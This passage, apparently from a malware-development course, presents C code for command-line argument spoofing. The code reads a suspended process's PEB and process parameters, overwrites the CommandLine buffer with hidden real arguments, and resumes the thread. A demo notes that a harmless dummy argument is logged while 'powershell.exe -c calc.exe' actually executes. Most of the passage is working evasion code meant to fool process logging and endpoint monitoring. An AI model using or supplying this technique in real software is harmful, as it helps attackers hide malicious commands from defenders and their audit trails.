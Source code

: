 ```c
	if ((STATUS = pNtQueryInformationProcess(Pi.hProcess, ProcessBasicInformation, &PBI, sizeof(PROCESS_BASIC_INFORMATION), &uRetern)) != 0) {
		printf("\t[!] NtQueryInformationProcess Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	
	// Reading the PEB structure from its base address in the remote process
	if (!ReadFromTargetProcess(Pi.hProcess, PBI.PebBaseAddress, &pPeb, sizeof(PEB))) {
		printf("\t[!] Failed To Read Target's Process Peb \n");
		return FALSE;
	}

	// Reading the RTL_USER_PROCESS_PARAMETERS structure from the PEB of the remote process
	// Read an extra 0xFF bytes to ensure we have reached the CommandLine.Buffer pointer
	// 0xFF is 255 but it can be whatever you like
	if (!ReadFromTargetProcess(Pi.hProcess, pPeb->ProcessParameters, &pParms, sizeof(RTL_USER_PROCESS_PARAMETERS) + 0xFF)) {
		printf("\t[!] Failed To Read Target's Process ProcessParameters \n");
		return FALSE;
	}

	// Writing the real argument to the process
	if (!WriteToTargetProcess(Pi.hProcess, (PVOID)pParms->CommandLine.Buffer, (PVOID)szRealArgs, (DWORD)(lstrlenW(szRealArgs) * sizeof(WCHAR) + 1))) {
		printf("\t[!] Failed To Write The Real Parameters\n");
		return FALSE;
	}


	// Cleaning up
	HeapFree(GetProcessHeap(), NULL, pPeb);
	HeapFree(GetProcessHeap(), NULL, pParms);

	// Resuming the process with the new paramters
	ResumeThread(Pi.hThread);

	// Saving output parameters
	*dwProcessId     = Pi.dwProcessId;
	*hProcess        = Pi.hProcess;
	*hThread         = Pi.hThread;

	// Checking if everything is valid
	if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL)
		return TRUE;

	return FALSE;
}

```

### Demo

`powershell.exe Totally Legit Argument` is the dummy argument that will be logged whereas `powershell.exe -c calc.exe` is the payload that is executed.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/arg-spoof-309567835-eed3b698-80d0-4a39-ae98-7d2f4120a9a3.png)